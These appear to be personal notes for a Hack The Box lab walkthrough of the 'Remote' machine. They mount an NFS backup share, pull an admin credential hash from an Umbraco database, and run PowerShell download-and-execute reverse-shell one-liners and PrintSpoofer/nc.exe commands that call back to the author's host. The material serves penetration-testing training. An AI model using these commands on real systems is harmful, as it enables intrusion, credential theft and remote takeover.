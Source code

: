 ```bash
mount -t nfs -o vers=2 10.129.95.194:/site_backups /mnt/remote -o nolock

sudo mount -t nfs -o vers=2 10.129.95.194:/site_backups /mnt/remote -o nolock
```

### Get the directory tree of the mount 
```
find . -ls > ~/home/user/web.dir
```

Don't use sublime or vscode. They miss files

### Go through config files, grep passwords
```bash
strings Umbraco.sdf | grep -i passwd
strings Umbraco.sdf | grep -i admin
strings Umbraco.sdf | grep -i admin@htb.local
```

adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50

### Those insdie strings so go start with /c
`/c ping 10.10.16.9`

### Solve Clock problem
1. try diff host <ip> or http://<ip> or http://<ip>/cms
2. change something like calc.exe or other placeholders to cmd.exe

### Shell
##### Avoid using Invoke-ConPtyShell.ps1
```
/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.9/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.10.16.9 4242
```

/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.9/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4242

https://0xdf.gitlab.io/2020/09/05/htb-remote.html
I’ll update the payload with the PowerShell loader that will download from my host a Nishang PowerShell reverse shell and run it. The payload will be:
```
string cmd = "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.9/Invoke-PowerShellTcp.ps1')";Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4242
```
To break that down, the target exe is still cmd.exe. It will run with /c, so running the command that follow. PowerShell will start, with -c to issue commands that follow. iex (shorthand for Invoke-Expression) will run whatever string comes back from the rest of the line. The rest of the line will reach out to my host, and download shell.ps1 (which is then passed to iex).

I’ll grab a copy of Invoke-PowerShellTcp.ps1 (and save it as shell.ps1), and add a line at the bottom to execute the shell:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443
```
Without this line, the harness would load the reverse shell functions into the PowerShell session, and but not use them. Now it will load the functions and then invoke the one I want to call back to me.

### Priv
cp winPEASx64.exe /home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Remote
IWR http://10.10.16.9/winPEASx64.exe -OutFile winPeas.exe

### Not working at 2021 Sep
```
PrintSpoofer64.exe -i -c cmd # is not recognized as the name of a cmdlet, function, script file
.\PrintSpoofer64.exe -i -c cmd # stuck
.\PrintSpoofer64.exe -i -c "powershell -c iex( iwr http://10.10.16.9/Invoke-PowerShellTcp.ps1 -UseBasicParsing );Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4567"
.\PrintSpoofer64.exe -i -c "powershell -ep bypass"
```

### nc.exe is the only working one
```
IWR http://10.10.16.9/nc.exe -OutFile nc.exe
.\PrintSpoofer64.exe -c "C:\users\public\nc.exe 10.10.16.9 4567 -e cmd"
```

At least 3 ways to root(some of them are patched now)
1. Crack registry key:
https://0xdf.gitlab.io/2020/09/05/htb-remote.html
2. RoguePotato is nolonger working
3. https://0xdf.gitlab.io/2020/02/01/htb-re.html#path-1-abuse-usosvc
2. PrinterSpoof
